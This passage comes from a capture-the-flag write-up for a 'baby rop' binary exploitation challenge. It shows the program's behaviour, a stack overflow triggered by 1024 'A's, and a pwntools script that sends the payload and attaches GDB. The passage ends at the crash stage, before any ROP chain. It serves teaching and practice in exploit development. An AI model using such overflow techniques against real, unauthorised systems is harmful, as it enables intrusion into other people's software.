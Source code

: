 The program is pretty basic; it prints some text and then reads user input:

{% highlight auto %}
$ ./pwn_baby_rop 
Solve this challenge to prove your understanding to black magic.
yakuhito
$
{% endhighlight %}


## Crashing the Application
As the name of the challege suggests, the binary is vulnerable to a stack overflow vulnerability which can be triggered by simply inputting 1024 'A's:

{% highlight auto %}
$ python -c 'print("A" * 1024)' | ./pwn_baby_rop 
Solve this challenge to prove your understanding to black magic.
Segmentation fault
$
{% endhighlight %}

To make things easier, I made the following python script:

{% highlight python %}
from pwn import *

io = process("./pwn_baby_rop")

io.recvuntil("black magic.\n")

gdb.attach(io)

payload = b""
payload += b"A" * 1024

io.sendline(payload)
io.interactive()
{% endhighlight %}

Besides crashing the app, the program above also attaches the GDB debugger to the application. This will be very helpful in the next steps. After running the script, a new window should pop up with the said debugger. For now, just input 'c' and press enter (it stands for 'continue' and tells the decompiler to continue the execution of the program that is being analyzed). The program will still crash, but the debugger will show the last assembly instruction that failed to execute:

{% highlight auto %}
$ python crash.py 
[+] Starting program './pwn_baby_rop': Done
[*] running in new terminal: gdb "/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop" 27040
[+] Waiting for debugger: Done
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
{% endhighlight %}
